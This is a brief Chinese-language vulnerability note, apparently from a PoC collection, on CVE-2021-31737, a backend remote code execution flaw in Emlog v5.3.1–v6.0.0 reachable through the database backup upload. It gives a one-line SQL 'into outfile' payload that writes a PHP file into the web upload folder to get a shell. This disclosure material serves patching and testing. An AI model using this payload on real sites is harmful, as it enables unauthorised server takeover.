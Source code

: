 # Emlog v5.3.1 - v6.0.0 后台 RCE（CVE-2021-31737）

由于在admin/data.php中上传了数据库备份文件，因此emlog v5.3.1和emlog v6.0.0具有远程执行代码漏洞。

影响版本：

* Emlog v5.3.1
* Emlog v6.0.0

PoC：

```
select "<?php phpinfo();?>" into outfile "/var/www/html/tet1/emlog_6.0.0/src/content/uploadfile/202104/222.php";

```

通过在后台数据-备份数据库进行构造恶意sql语句进行备份上传-getshell

ref：

* https://nvd.nist.gov/vuln/detail/CVE-2021-31737
* https://github.com/emlog/emlog/issues/82
